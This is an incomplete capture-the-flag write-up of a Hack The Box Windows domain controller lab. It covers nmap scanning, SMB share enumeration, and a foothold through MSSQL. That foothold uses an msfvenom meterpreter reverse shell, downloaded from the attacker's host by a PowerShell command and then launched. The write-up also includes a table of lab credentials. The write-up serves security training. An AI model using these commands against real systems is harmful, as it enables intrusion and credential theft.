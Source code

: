 # Intro

# Enumeration

## Nmap

Check all open ports
```bash
 nmap -sS -p- -vv -min-rate 10000 -oA ./nmap/massive_scan 10.129.232.128  
```

- **min-rate 10000**: means that we send 10000 packets for second 
- **-p-**: Scan all 65,535 ports
- **-sS**: **SYN** scan is a stealth scan that check if a TCP port is open sending a SYN packet. If the target respond with `SYN-ACK` the port is open instance if respond with `RST` is closed. This scan **doesn't** complete a TCP handshake this reduce the noise and logging, this allow us to hide from **IDS** or **firewall**

Extract all ports from `.gnamp` file using `grep` and save all in $ports variable
```bash
ports=$(grep "Ports:" nmap/massive_scan.gnmap | grep -oP '\d+(?=/open/tcp)' | paste -sd,)
```

now i perform a more deep scan only on open ports
```bash
sudo nmap -sS -sC -p $ports 10.129.232.128 -oA ./nmap/target_scan

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-21T13:52:30+00:00; +1d00h02m07s from scanner time.
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp  open  ms-sql-s
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-07-21T13:21:36
|_Not valid after:  2055-07-21T13:21:36
| ms-sql-info: 
|   10.129.232.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.232.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-07-21T13:52:30+00:00; +1d00h02m06s from scanner time.
3268/tcp  open  globalcatLDAP
5985/tcp  open  wsman
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49693/tcp open  unknown
49695/tcp open  unknown
49726/tcp open  unknown
49805/tcp open  unknown

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1d00h02m06s, deviation: 0s, median: 1d00h02m05s
| smb2-time: 
|   date: 2025-07-21T13:51:33
|_  start_date: N/A

```

We have found:
- **Microsoft SQL Server 2019 RTM** on port **1433** 
- The **SMB** share port on **445**
- The domain is **sequel.htb**  the computer name is **DC01** and the FQN is **DC01.sequel.htb**. I have added this information on my hotsts file 
## Enumerate SMB folders
The organization give use the rose's credentials. We can use that to enumerate the shares.

```bash
smbmap -H DC01.sequel.htb -u rose -p 'KxEPkKe6R8su'
```

![](../../../../Assest/Pasted%20image%2020250720160721.png)

The **Accounting Department** is a non standard folder so we can check what we have here. Connect to the SMB  share withe `smbclient`
```
smbclient "//DC01.sequel.htb/Accounting Department" -U rose --password 'KxEPkKe6R8su'
```

To download all content in the folder
```bash
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
![](../../../../Assest/Pasted%20image%2020250720161945.png)
We have two Excels (disgusting) files.
![](../../../../Assest/Pasted%20image%2020250721002832.png)
I try to open this to files but seams are corrupted. Indeed the magic bytes are not the corresponded bytes of xlsx.. i ha try to modify the uncorrected byte but still not worked. So i have decide to convert the Shitexl in to CSV file.

In the `Accounts` file we have different password
![](../../../../Assest/Pasted%20image%2020250721003252.png)


# Foothold

## MSSQL
With the previously founded credential we have access to MSSQL for `sa@sequel.htb`  user
![](../../../../Assest/Pasted%20image%2020250721004055.png)
- `local-auth`: This because the user is not in the domain. Is a local user of DC01 computer.

Now my idea is to craft a meterpreter shell using `msfvenom` and download in the target machine through power-shell command. First all i need to check the arch of the target. We can do with `systeminfo` command on windows.

![](../../../../Assest/Pasted%20image%2020250721004948.png)
- with the `-X` flag we can run PS code. 

Create a meterpreter shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=667 -f exe -o meterpreter.exe
```

Now setup the listener on `msfconsole` using `multi/handler` module.

```bash
netexec mssql DC01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -X "powershell -c \"mkdir C:\\TEMP; Invoke-WebRequest -Uri http://10.10.14.85:8000/meterpreter.exe -OutFile C:\\TEMP\\ciccio.exe; Start-Process C:\\TEMP\\ciccio.exe\"" --verbose
```

![](../../../../Assest/Pasted%20image%2020250721011545.png)

!TODO: explain the powershell script

![](../../../../Assest/Pasted%20image%2020250721011531.png)

Now under the  `C:\SQL2019\ExpressAdv_ENU` installation folder of MSSQL we can see the `sql-Configuration.INI` file that contains `sql_svc` user's credentials.

![](../../../../Assest/Pasted%20image%2020250721012901.png)

!TODO: spray attack with founded password (i cant log in with `sql_svc` user)

# Privilege Escalation

# Loot

## Credentials

| user           | pwd              |
| -------------- | ---------------- |
| rose           | KxEPkKe6R8su     |
| sa@sequel.htb  | MSSQLP@ssw0rd!   |
| SEQUEL\sql_svc | WqSZAF6CysDQbGb3 |

## Flags

